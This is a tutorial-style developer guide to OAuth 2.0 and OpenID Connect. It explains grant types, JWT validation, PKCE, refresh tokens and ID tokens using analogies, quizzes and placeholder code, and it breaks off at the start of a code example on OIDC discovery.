




# OAuth 2.0 + OpenID Connect — The Complete Mastery Guide

> **Your goal:** By the end of this guide you will understand OAuth 2.0 and OIDC deeply enough to architect, implement, debug, and explain them to your team. Written for smart developers who are new to these protocols.

---

## 🧭 Developer Orientation — Read This First

### What problem does this guide solve for you?

As a developer, you will encounter OAuth and OIDC in these situations:

```
Situation                                    What you need to know
─────────────────────────────────────────────────────────────────
Building a "Login with Google" button    →   OIDC Authorization Code flow
Your API needs to reject bad tokens      →   JWT validation (Module 2)
Microservice A calls Microservice B      →   Client Credentials / Token Relay
Building a mobile app with login         →   Auth Code + PKCE (Module 4)
Smart TV or CLI tool needs login         →   Device Code grant (Module 5)
User says "I logged out but I'm still in"→   Token expiry + revocation (Module 7)
Enterprise customer wants SSO            →   SAML (separate guide)
```

### The master analogy — the VIP event wristband system

This analogy runs through the entire guide. Every time a new concept appears, it maps back here.

```
THE VIP EVENT                              OAUTH
─────────────────────────────────────────────────────────────────
You (the VIP guest)                    =   Resource Owner
Your personal assistant                =   Client (the app)
The event organiser / box office       =   Authorization Server
The bar, backstage, VIP lounge         =   Resource Server (the API)
The wristband                          =   Access Token
Your VIP membership card               =   Refresh Token
What the wristband says you can access =   Scope
The wristband's expiry stamp           =   exp claim
The event it's valid for               =   aud (audience) claim
Who issued it                          =   iss (issuer) claim

2-Legged: Your assistant goes to get a wristband — you're not there
3-Legged: YOU go, approve, and they give your assistant the wristband
```

### How tokens differ from sessions — the critical mental shift

If you've built web apps before, you know sessions: the server stores session data, gives the browser a cookie ID, and looks up the session on every request. **Tokens are fundamentally different.**

```
SESSION (stateful)                        TOKEN / JWT (stateless)
──────────────────────────────────────    ──────────────────────────────────────
Server stores session data                Server stores NOTHING
Browser has a reference ID (cookie)       Client has the actual data (token)
Server must look up session on each req   Server validates token locally (no lookup)
Revoke: delete the session record         Revoke: wait for expiry OR use blocklist
Scale: session must be shared             Scale: any server can validate (no sync)
  across servers (Redis, DB)                because public key is all that's needed

ANALOGY:
Session = Library membership number       Token = Driving licence
  "Show me your number, I'll look you up"   "Show me your licence — I can verify it
   in my database to see your privileges"    myself right now without calling anyone"
```

> **⚠️ Common mistake:** treating tokens like sessions — storing them server-side, or calling the Auth Server on every request to "verify" them. If you have a valid JWT and the public key, you verify it locally. That is the whole point.

### 🔖 Symbol guide

| Symbol | Meaning |
|:---:|---|
| 💡 | Core concept — read carefully |
| 🔐 | Security critical — never skip |
| 🏭 | Production pattern — real system design |
| ⚠️ | Common mistake — beginners get this wrong |
| 📖 | Real-world story — anchor the concept |
| 🛠️ | Debugging — what to check when it breaks |
| 🧪 | Test yourself — check your understanding |

---

## Module 1 — Why OAuth 2.0 exists {#module-1}

### 💡 Plain English first

> **OAuth 2.0 in one sentence:** It is the system that lets you say "yes, that app can access my data on that other service — but only THIS much, and only for THIS long — without ever giving the app my password."

### 📖 The story that explains everything

It is 2009. A new app called **TripAdvisor** wants to email your restaurant reviews to your friends. To do this, it needs access to your Gmail contacts.

The app shows you a form: *"Enter your Gmail username and password."*

You type it in. Think carefully about what just happened:

- TripAdvisor now has your Gmail password stored in their database
- They have access to **every email you've ever sent or received**
- They can send emails **as you** to anyone
- They can never "un-know" your password
- Three months later, TripAdvisor is hacked
- Attackers have your Gmail password
- Your bank sends password reset links to Gmail
- Your work uses Gmail too
- One breach cascades into everything

**This is the exact problem OAuth 2.0 was invented to solve.**

With OAuth, the flow becomes:
- TripAdvisor redirects you to Google's own login page
- You log in at Google (TripAdvisor never sees your password)
- Google asks: *"TripAdvisor wants to read your contacts. Allow?"*
- You click Allow
- Google gives TripAdvisor a **limited token**: read contacts only, expires in 1 hour
- TripAdvisor reads your contacts — that's all it can do
- If TripAdvisor is hacked, attackers get a token that expired hours ago
- You can revoke TripAdvisor's access from your Google account settings any time

```
BEFORE OAUTH                              AFTER OAUTH
──────────────────────────────────────    ──────────────────────────────────────
App has your password forever             App has a scoped, expiring token
App has full account access               App has exactly what you permitted
Can't revoke without changing password    Revoke from Google settings anytime
One breach = password exposed             Breach = useless expired token
You have no visibility into what it does  Google shows you every connected app
```

### 💡 The four actors — who does what

```
┌─────────────────────────────────────────────────────────────────────┐
│                     THE OAUTH CAST                                   │
│                                                                      │
│  👤 RESOURCE OWNER                                                   │
│     You. The person who owns the data.                               │
│     You decide what to grant access to, and you can revoke it.       │
│                                                                      │
│  📱 CLIENT                                                           │
│     The application that wants access to your data.                  │
│     It acts on your behalf — but only within what you permitted.     │
│     Examples: TripAdvisor, a mobile banking app, a CI/CD pipeline   │
│                                                                      │
│  🔐 AUTHORIZATION SERVER                                             │
│     The trusted authority. It verifies your identity and issues      │
│     tokens. Examples: Google, PingFederate, Okta, Auth0              │
│                                                                      │
│  🌐 RESOURCE SERVER                                                  │
│     The API that holds your protected data.                          │
│     It validates tokens and serves data if the token is valid.       │
│     Examples: Google Contacts API, GitHub API, your own backend API  │
└─────────────────────────────────────────────────────────────────────┘
```

### 💡 OAuth is authorisation — NOT authentication

This is the most important distinction in this entire guide.

```
AUTHENTICATION:   "Prove who you are"              → Login
AUTHORISATION:    "Prove what you're allowed to do" → Permissions

OAuth 2.0 ONLY does authorisation.
It does NOT define how to log a user in or tell you who they are.
That is what OpenID Connect (Module 6) adds.

Analogy:
  Authentication = showing your passport at the border (proving who you are)
  Authorisation  = showing your visa (proving what you're allowed to do)
  OAuth 2.0      = the visa system
  OIDC           = the passport system built on top of the visa system
```

> **⚠️ Common mistake:** using OAuth alone for login. If you only use OAuth (without OIDC), you get a token that proves an app has permission — but you cannot reliably identify *who the user is*. Module 6 covers why.

### 🧪 Test yourself — Module 1

```
Q1: A user clicks "Connect Spotify to my fitness app." Which OAuth actor is Spotify?
    A: The Resource Server (it holds the user's music data).
       The fitness app is the Client. The user is the Resource Owner.

Q2: True or false: OAuth 2.0 lets you build a login system.
    A: False. OAuth 2.0 handles authorisation (what the app can access).
       OIDC (built on OAuth) adds authentication (who the user is).

Q3: An attacker steals an OAuth access token. It has a 1-hour expiry and
    was issued 55 minutes ago. How dangerous is this?
    A: Moderately — they have 5 minutes of access to the permitted scope.
       This is why tokens have short expiry + refresh tokens exist.
```

---

## Module 2 — JWT: the token format that powers everything {#module-2}

### 💡 Plain English first

> **JWT in one sentence:** A JWT is a tamper-proof, self-contained information card — like a digitally signed driving licence that any API can verify without calling the issuer.

### 🛠️ Start here — see it before learning it

Paste this token into **jwt.io** right now and look at what appears:

```
eyJhbGciOiJSUzI1NiIsImtpZCI6ImtleS0xIn0.eyJpc3MiOiJodHRwczovL2F1dGguZXhhb
XBsZS5jb20iLCJzdWIiOiJ1c2VyXzEyMyIsImF1ZCI6Imh0dHBzOi8vYXBpLmV4YW1wbGUu
Y29tIiwiZXhwIjoxNzEzNDU2Nzg5LCJpYXQiOjE3MTM0NTMxODksInNjb3BlIjoiYXBpLnJl
YWQiLCJlbWFpbCI6ImphbmVAZXhhbXBsZS5jb20ifQ.SIGNATURE
```

You will see three sections decoded. The middle section (the payload) shows you:
- Who issued this token (`iss`)
- Who this token is about (`sub`)
- Who this token is intended for (`aud`)
- When it expires (`exp` — a Unix timestamp)
- What permissions it carries (`scope`)
- Custom data about the user (`email`)

**This is all the API needs to make an access decision — no database lookup, no network call.**

### 💡 The three segments — what they are and why

```
eyJhbGciOiJSUzI1NiIsImtpZCI6ImtleS0xIn0   ← HEADER
         .
eyJpc3MiOiJodHRwczovL2F1dGguZXhhbXBsZS5jb20...  ← PAYLOAD
         .
SflKxwRJSMeKKF2QT4fwpMeJf36POk6yJV_adQssw5c    ← SIGNATURE

Each segment is Base64url encoded — NOT encrypted.
Anyone who intercepts a JWT can decode and read it.
The signature only proves it was not tampered with.

ANALOGY: Think of a JWT like a plastic ID badge:
  Header   = The badge format ("this is an RSA-signed badge, key #1")
  Payload  = The information on the badge (name, department, access level)
  Signature= The holographic seal that proves it's genuine
  
  The badge is readable by anyone who sees it.
  But forging the holographic seal is computationally impossible.
```

> **🔐 Critical:** Never put passwords, private keys, or sensitive secrets inside a JWT payload. It is readable by anyone.

### 💡 Standard claims — what each field means

```json
{
  "iss": "https://auth.example.com",
  "sub": "user_123",
  "aud": "https://api.example.com",
  "exp": 1713456789,
  "iat": 1713453189,
  "jti": "a8f3c2d1-4b5e-6f7a-8b9c",
  "scope": "api.read profile",
  "email": "jane@example.com",
  "roles": ["admin"]
}
```

| Claim | Stands for | What it means | Who validates it | What breaks if you skip |
|---|---|---|---|---|
| `iss` | Issuer | Who created this token | API (resource server) | Dev tokens accepted in prod |
| `sub` | Subject | WHO this token is about | Your app | Wrong user gets access |
| `aud` | Audience | WHO this token is FOR | API (resource server) | API-A token accepted at API-B |
| `exp` | Expiry | Unix timestamp — invalid after this | API | Expired tokens work forever |
| `iat` | Issued At | When it was created | Optional | — |
| `jti` | JWT ID | Unique ID for this specific token | Optional | Replay attacks possible |
| `scope` | Scope | What permissions this grants | API | Insufficient permissions not caught |

### 💡 Signing: how the holographic seal works



**Why asymmetric signing (RS256) matters:**
- Auth Server has a **private key** — only it can sign tokens
- Everyone has the **public key** — anyone can verify, no one can forge
- If you used a shared secret (HS256), the API could forge tokens itself

### 💡 Stateless validation — why this is powerful

```
TRADITIONAL SESSION VALIDATION            JWT VALIDATION
──────────────────────────────────────    ──────────────────────────────────────
API receives request with session ID      API receives request with JWT
API calls database: "SELECT * FROM        API decodes JWT (no database needed)
  sessions WHERE id = 'abc123'"           API fetches JWKS public key (cached)
Database returns session data             API verifies signature locally
API checks if session is valid            API checks exp, iss, aud, scope
API serves response                       API serves response

Speed:  ~20-50ms (database round-trip)    Speed: ~0.5ms (local crypto operation)
Scale:  Session DB becomes a bottleneck   Scale: Any server validates independently
Revoke: Delete the session row            Revoke: Wait for expiry (or use blocklist)
```

### 💡 JWT vs Opaque tokens

| | JWT | Opaque token |
|---|---|---|
| What it looks like | Long Base64 string with 2 dots | Short random string |
| Validation | Local (no Auth Server call) | Must call Auth Server (`/introspect`) |
| Contents | Visible claims inside | Only Auth Server knows |
| Revocation | Cannot revoke before expiry | Revocable instantly |
| Use when | High-traffic APIs, speed matters | Strict revocation needed |

### 💡 Token Introspection (RFC 7662) — for opaque tokens

When you can't use JWTs or need real-time revocation, call the introspection endpoint:

```bash
# Validating an opaque token
POST https://auth.example.com/introspect
Authorization: Basic base64(client_id:client_secret)
token=<the_token_to_validate>

# Auth Server responds:
{ "active": true, "sub": "user_123", "scope": "api.read", "exp": 1713456789 }
# Or if invalid/expired:
{ "active": false }
```

### 💡 Token Revocation (RFC 7009) — on logout

```bash
# Tell Auth Server to invalidate a token immediately
POST https://auth.example.com/oauth/revoke
Authorization: Basic base64(client_id:client_secret)
token=<refresh_token>&token_type_hint=refresh_token

# Response: 200 OK (even if token was already invalid)
```

> **🏭 Revoke the refresh token on logout first.** The access token will expire naturally in minutes. The refresh token could generate new access tokens for days — that is the real risk.

### 🛠️ Debugging JWT problems

```
You get a 401 with error=invalid_token. Diagnostic steps:

Step 1: Paste the token into jwt.io
        → Is it expired? Check the exp field (convert Unix timestamp)
        → Is the iss what you expect?
        → Is the aud your API's URL?

Step 2: Check your validation code
        → Are you explicitly setting allowed algorithms?
          (Missing this = alg:none attack vector)
        → Are you checking aud against your OWN API URL?
          (Common miss: copy-pasting code from another service)

Step 3: Clock skew
        → Server times differ by >60 seconds?
          JWT with exp=now-30s looks expired to your server
          but wasn't when issued. Add 60s tolerance.

Tools: jwt.io (decode), jwt.ms (Microsoft's decoder),
       curl -v (see raw HTTP headers and status codes)
```

### ⚠️ Common misconceptions — Module 2

```
❌ "JWTs are encrypted, so they're secure"
✅ JWTs are Base64url ENCODED — not encrypted. Anyone can read the payload.
   Only the signature is protected. Don't put secrets in JWT payloads.

❌ "I should validate JWTs by calling the Auth Server on every request"
✅ Validate locally using the public key from JWKS. That's the point of JWTs.
   Calling the Auth Server on every request defeats the purpose entirely.

❌ "If the signature is valid, the token is valid"
✅ Signature valid + exp not past + iss correct + aud correct = valid token.
   A token can have a perfect signature and still be expired or for a different API.

❌ "alg:none is handled by JWT libraries automatically"
✅ Many older libraries accepted alg:none unless you explicitly blocked it.
   Always set an explicit algorithm allowlist. Never rely on defaults.
```

---

## Module 3 — Client Credentials grant (2-legged OAuth) {#module-3}

### 💡 Plain English first

> **Client Credentials in one sentence:** The application itself logs in and gets a token — no human involved, no consent screen, just "here's my ID and password, give me a token to call APIs."

### 💡 When does this apply to you?

You are writing a service that runs on a schedule, in the background, or calls another service. There is no user in the loop.

```
You need Client Credentials when:         You do NOT use Client Credentials when:
──────────────────────────────────────    ──────────────────────────────────────
Your cron job calls an external API       A user is clicking buttons in your app
Service A needs to call Service B         You need to access a specific user's data
CI/CD pipeline calls deployment API       You need a refresh token
Nightly report emails users               Anything a human triggers interactively
IoT sensor uploads telemetry
```

### 💡 The minimal working example — what you write on Day 1

```javascript
// MINIMAL — this is all you need to make it work
async function callApi() {
  // Step 1: Get a token
  const tokenRes = await fetch('https://auth.example.com/token', {
    method: 'POST',
    headers: { 'Content-Type': 'application/x-www-form-urlencoded' },
    body: 'grant_type=client_credentials&client_id=MY_ID&client_secret=MY_SECRET&scope=api.read'
  });
  const { access_token } = await tokenRes.json();

  // Step 2: Use the token
  const apiRes = await fetch('https://api.example.com/data', {
    headers: { 'Authorization': `Bearer ${access_token}` }
  });
  return apiRes.json();
}
```

That is the complete Client Credentials flow. Everything below is production hardening on top of this foundation.

### 🏭 Production version — token caching

```javascript
// PRODUCTION — cache the token, request new one only when needed
let _token = null, _expiry = 0;

async function getToken() {
  const now = Math.floor(Date.now() / 1000);
  if (_token && now < _expiry - 300) return _token;  // reuse if >5min remaining

  const res = await fetch('https://auth.example.com/token', {
    method: 'POST',
    headers: {
      'Authorization': 'Basic ' + Buffer.from(`${CLIENT_ID}:${CLIENT_SECRET}`).toString('base64'),
      'Content-Type': 'application/x-www-form-urlencoded'
    },
    body: 'grant_type=client_credentials&scope=api.read'
  });
  const data = await res.json();
  _token = data.access_token;
  _expiry = now + data.expires_in;
  return _token;
}
// Use getToken() before every API call — it handles caching automatically
```

> **⚠️ Never request a new token on every API call.** Token endpoints have rate limits. Cache the token and reuse it until 5 minutes before expiry.

### 📖 Real-world: payment microservices at a bank

```
The bank's payment platform has 4 services. Each is its own "user" with its own
client_id registered in the Auth Server.

  Order Service     → client_id: order-svc,   scope: payment.initiate
  Payment Service   → client_id: payment-svc, scope: fraud.check
  Fraud Service     → client_id: fraud-svc,   scope: notify.send
  Notification Svc  → client_id: notify-svc,  scope: (none — receives only)

Flow for processing an order:
  1. Order Service gets its token (client_creds) → calls Payment Service
  2. Payment Service gets its own token → calls Fraud Service
  3. Fraud Service approves → calls Notification Service
  4. Each hop has a separate token scoped only to what that service needs

If Payment Service is compromised, attackers get a token scoped to fraud.check only.
They cannot initiate payments (wrong scope) or send notifications (wrong scope).
This is principle of least privilege enforced via OAuth scopes.
```

### 🧪 Test yourself — Module 3

```
Q1: Your Client Credentials token expires in 10 minutes.
    Should you request a new one now or wait until it expires?
    A: Request a new one now (5 min before expiry is the standard buffer).
       Waiting for expiry means 1 API call will fail while you get a new token.

Q2: Service A is calling Service B. Service B returns 403 Forbidden.
    The token is valid and not expired. What is the most likely cause?
    A: Wrong scope. Service A's token doesn't include the scope that
       Service B requires. Check the scope claim in the JWT (use jwt.io).

Q3: You store CLIENT_SECRET in your GitHub repo by mistake.
    What must you do immediately?
    A: Rotate the secret in the Auth Server immediately. Every minute it
       stays valid, anyone who found it can generate tokens with your identity.
```

---

## Module 4 — Authorization Code + PKCE (3-legged OAuth) {#module-4}

### 💡 Plain English first

> **Authorization Code flow in one sentence:** The user logs in at the Auth Server directly, approves what the app can do, and the app gets a token — without the app ever seeing the user's password.

### 💡 Why does this flow have so many steps?

Before looking at the flow, understand WHY each step exists. This is the question every developer asks.

```
QUESTION: Why not just return the token in the URL after login?
ANSWER:   Because URLs end up in browser history, server logs, and
          Referrer headers. A token in a URL = a token in your logs.

QUESTION: Why is there an intermediate "auth code" step?
ANSWER:   The auth code alone is useless — it can only be exchanged by
          someone who also has the client_secret (on your server).
          So the front channel (browser) carries the useless code.
          The back channel (server) does the real exchange.

QUESTION: Why does PKCE exist if we have a client_secret?
ANSWER:   Mobile apps and SPAs CANNOT safely store a secret.
          Anyone can decompile an app and find the secret.
          PKCE replaces the secret with a one-time cryptographic proof
          that only the legitimate app can produce.

QUESTION: Why is there a state parameter?
ANSWER:   Without it, an attacker can trick your browser into completing
          a login and binding YOUR account to the ATTACKER's session.
          State is a random value you generate, store, and verify on return.
```

### 💡 The complete flow — built step by step



### 💡 PKCE — the secret handshake that protects mobile apps

```
THE ATTACK PKCE PREVENTS (auth code interception):
  1. Malicious app on same device registers same redirect URI as yours
  2. Your auth code redirect goes to the malicious app too
  3. Malicious app submits the code to the token endpoint
  4. WITHOUT PKCE: Auth Server issues a token. Attacker wins.

HOW PKCE STOPS IT:
  Before redirect:  You generate a secret "verifier" word
  During redirect:  You send SHA256(verifier) as the "challenge"
  On exchange:      You must prove you know the original verifier
  
  Attacker stole the code but NOT the verifier.
  SHA256(attacker_guess) ≠ your challenge → exchange rejected.
```

```javascript
// MINIMAL PKCE implementation (browser)
async function startLogin() {
  // Generate verifier (the secret you keep)
  const array = new Uint8Array(64);
  crypto.getRandomValues(array);
  const verifier = btoa(String.fromCharCode(...array))
    .replace(/\+/g,'-').replace(/\//g,'_').replace(/=/g,'');

  // Generate challenge (the hash you send to Auth Server)
  const digest = await crypto.subtle.digest('SHA-256', new TextEncoder().encode(verifier));
  const challenge = btoa(String.fromCharCode(...new Uint8Array(digest)))
    .replace(/\+/g,'-').replace(/\//g,'_').replace(/=/g,'');

  const state = crypto.randomUUID();
  sessionStorage.setItem('pkce_verifier', verifier);
  sessionStorage.setItem('oauth_state', state);

  // Redirect to Auth Server
  const url = `https://auth.example.com/authorize?response_type=code`
    + `&client_id=MY_APP&redirect_uri=https://myapp.com/callback`
    + `&scope=openid+profile+api.read`
    + `&code_challenge=${challenge}&code_challenge_method=S256`
    + `&state=${state}`;
  window.location.href = url;
}
```

### 📖 Real-world: employee HR portal login

```
Jane opens hr.company.com on Monday morning.
She has never visited this site before. There is no login form on the page.
She sees: "Sign in with your company account →"

What happens technically:
  1. HR portal generates PKCE pair + state, redirects Jane to PingFederate
  2. PingFederate shows: "Enter your Windows credentials"
  3. Jane types her AD username + password (HR portal NEVER sees this)
  4. PingFed authenticates Jane against Active Directory
  5. PingFed redirects back: /callback?code=SplxlO...&state=xyz
  6. HR portal server exchanges code → gets access_token + id_token
  7. id_token says: sub=jane_789, email=jane@company.com, roles=[manager,employee]
  8. access_token is used for every subsequent API call
  9. Refresh token silently renews access every hour — Jane never re-types password

Jane's experience: she typed her Windows password ONCE, in a page she recognises
(her company's login page), and she's in the HR portal.
She never created a separate HR portal password.
```

### 🧪 Test yourself — Module 4

```
Q1: Your callback receives state=abc123 but sessionStorage has state=xyz789.
    What should you do and why?
    A: Reject the callback immediately and redirect to an error page.
       State mismatch = possible CSRF attack. Someone else initiated this flow.

Q2: A user completes login, gets an access token, then immediately logs out.
    Five minutes later someone calls your API with the old access token.
    Should it work?
    A: Yes, if the token hasn't expired yet. Access tokens are stateless —
       "logout" only clears your app's session. The token itself remains valid
       until exp. This is the logout problem. Solution: short expiry + revocation.

Q3: When should you NOT use PKCE?
    A: Never — OAuth 2.1 mandates PKCE for ALL Authorization Code flows,
       even for confidential clients with a client_secret.
       PKCE is always additive security, never harmful.
```

---

## Module 5 — Other grant types {#module-5}

### 💡 Device Code — for smart TVs, CLIs, IoT

> **Plain English:** The device shows you a short code and a URL. You go to that URL on your phone, type the code, approve — and the device gets a token. The device never had a browser.



> **📖 You have done this:** signing into YouTube on a smart TV, authenticating the AWS CLI with `--sso`, running `gh auth login` in GitHub CLI.

### 💡 Refresh Token — silent renewal

```javascript
// The pattern every app needs: try the API, handle 401 by refreshing
async function apiCall(endpoint) {
  let token = getStoredToken();

  // Proactive refresh (5 min before expiry)
  if (tokenExpiresInLessThan(token, 300)) {
    token = await refreshToken();
  }

  const res = await fetch(endpoint, {
    headers: { Authorization: `Bearer ${token}` }
  });

  if (res.status === 401) {
    // Reactive refresh (token rejected — expired or revoked)
    token = await refreshToken();
    if (!token) { redirectToLogin(); return; }
    return fetch(endpoint, { headers: { Authorization: `Bearer ${token}` } });
  }
  return res.json();
}

async function refreshToken() {
  const res = await fetch('https://auth.example.com/token', {
    method: 'POST',
    body: new URLSearchParams({
      grant_type: 'refresh_token',
      refresh_token: getStoredRefreshToken(),
      client_id: CLIENT_ID
    })
  });
  if (!res.ok) return null; // expired — must re-login
  const data = await res.json();
  storeToken(data.access_token, data.expires_in);
  // IMPORTANT: store NEW refresh token (rotation — old one is now dead)
  if (data.refresh_token) storeRefreshToken(data.refresh_token);
  return data.access_token;
}
```

> **🔐 Refresh token rotation:** Every time you use a refresh token, the Auth Server issues a NEW one and invalidates the old. If an attacker steals an old refresh token and tries to use it — the next legitimate use fails, alerting you to the theft.

### ⚠️ Deprecated flows — what you'll find in old codebases

```
IMPLICIT GRANT (removed in OAuth 2.1):
  Was: access_token returned in URL fragment (#access_token=xyz)
  Problem: token in browser history, Referrer headers, server logs
  You see it when: maintaining an old SPA from 2014-2018
  Replace with: Authorization Code + PKCE

RESOURCE OWNER PASSWORD (ROPC) (removed in OAuth 2.1):
  Was: app collects username + password, sends them to token endpoint
  Problem: re-introduces the EXACT problem OAuth was built to eliminate
  You see it when: legacy mobile apps, old "trusted first-party" integrations
  Replace with: Authorization Code + PKCE
```

---

## Module 6 — OpenID Connect (OIDC) {#module-6}

### 💡 Plain English first

> **OIDC in one sentence:** It is OAuth 2.0 with one extra thing added — the Auth Server also tells your app who the user is, via a special signed token called the ID token.

### 💡 The one analogy that explains everything

```
Imagine you're building an office building's entry system.

OAuth 2.0 alone:
  A visitor gets a keycard that opens specific doors.
  The door reader says "yes, this card opens this door."
  The door reader does NOT know whose card it is — just that it's valid.

OAuth 2.0 + OIDC:
  The visitor gets the same keycard (access_token).
  They ALSO get a name badge with their photo and name (id_token).
  Your reception desk checks the name badge to know WHO they are.
  The door readers still only check the keycard.

Key insight: the name badge (id_token) is for reception (your app).
             The keycard (access_token) is for the doors (APIs).
             Never show the name badge to a door reader.
```

### 💡 Three tokens — exactly what to do with each

```
┌──────────────────────────────────────────────────────────────────────┐
│  You just received three tokens. Here is EXACTLY what to do.        │
├──────────────────────────────────────────────────────────────────────┤
│                                                                      │
│  ACCESS TOKEN                                                        │
│  ├─ Store in: JavaScript memory (not localStorage)                  │
│  ├─ Send to: every API call in Authorization: Bearer header          │
│  ├─ Never: put in URLs, logs, localStorage, or a database           │
│  └─ When expiring: get a new one using the refresh token            │
│                                                                      │
│  ID TOKEN                                                            │
│  ├─ Use to: identify who the user is (read sub, email, name)        │
│  ├─ Store: save iss+sub as the user's ID in your database           │
│  ├─ Never: send to an API — it will be rejected (wrong aud)         │
│  └─ After reading it: you're done — don't store it long-term        │
│                                                                      │
│  REFRESH TOKEN                                                       │
│  ├─ Store in: httpOnly cookie (browser) or encrypted DB (server)    │
│  ├─ Send to: only the Auth Server's /token endpoint                 │
│  ├─ Never: expose to JavaScript, send to an API, log it             │
│  └─ Guard it: if stolen, attacker generates new access tokens       │
│                                                                      │
└──────────────────────────────────────────────────────────────────────┘
```

### 💡 ID token — what it looks like and what to do with it

```json
{
  "iss": "https://auth.example.com",
  "sub": "user_123",           ← USE THIS as your user's database key
  "aud": "my-client-app",      ← YOUR client_id — NOT the API's URL
  "exp": 1713456789,
  "iat": 1713453189,
  "nonce": "n-0S6_WzA2Mj",    ← VERIFY this matches what you sent
  "email": "jane@example.com",
  "email_verified": true,      ← CHECK this before trusting the email
  "name": "Jane Smith"
}
```

> **🔐 Never use email as your user's unique identifier.** Email addresses can change. Two different IdPs can issue the same email for different people. The only stable, globally unique identifier is the combination of `iss + sub`. Store `iss|sub` as the primary key in your users table.

> **🔐 Always check `email_verified: true`** before trusting the email claim. A user can register `cto@yourcompany.com` with Google without owning that domain. If you don't check `email_verified`, an attacker can impersonate any email address.

### 💡 OIDC scopes — what each unlocks

```
scope=openid               → Required minimum. You get: sub
scope=openid profile       → You also get: name, given_name, family_name, picture
scope=openid email         → You also get: email, email_verified
scope=openid address       → You also get: address (street, city, country)
scope=openid phone         → You also get: phone_number, phone_number_verified
```

### 💡 Discovery — auto-configuration in one URL

Every OIDC provider publishes a single JSON document that tells clients everything they need:

```javascript
